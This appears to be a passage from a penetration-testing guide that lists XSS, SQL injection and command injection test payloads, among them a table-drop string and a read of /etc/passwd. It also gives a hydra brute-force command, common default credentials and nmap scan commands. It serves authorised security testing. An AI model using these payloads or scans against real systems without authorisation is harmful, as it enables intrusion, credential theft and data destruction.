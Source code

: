 ### 2. Manual Vulnerability Assessment

#### Input Validation Testing
```python
# XSS Testing Payloads
xss_payloads = [
    "<script>alert('XSS')</script>",
    "javascript:alert('XSS')",
    "<img src=x onerror=alert('XSS')>",
    "';alert('XSS');//",
    "<svg onload=alert('XSS')>"
]

# SQL Injection Testing
sql_payloads = [
    "' OR '1'='1",
    "'; DROP TABLE users;--",
    "' UNION SELECT 1,2,3--",
    "admin'--",
    "' OR 1=1#"
]

# Command Injection Testing
cmd_payloads = [
    "; ls -la",
    "| cat /etc/passwd",
    "`whoami`",
    "$(id)",
    "&& net user"
]
```

#### Authentication Testing
```bash
# Brute Force Testing
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get-form "/login:username=^USER^&password=^PASS^:Invalid"

# Default Credentials Testing
# Common default credentials
admin:admin
admin:password
root:root
guest:guest
```

### 3. Infrastructure Assessment

#### Network Scanning
```bash
# Nmap Network Discovery
nmap -sn 192.168.1.0/24                    # Host discovery
nmap -sS -O -sV 192.168.1.100              # SYN scan with OS/version detection
nmap --script vuln 192.168.1.100           # Vulnerability scripts
nmap -sC -sV -oA scan_results 192.168.1.100 # Default scripts and service versions

# Port Scanning
nmap -p- 192.168.1.100                      # All ports
nmap -p 1-1000 192.168.1.100               # Port range
nmap -sU -p 53,67,68,161 192.168.1.100     # UDP ports
```
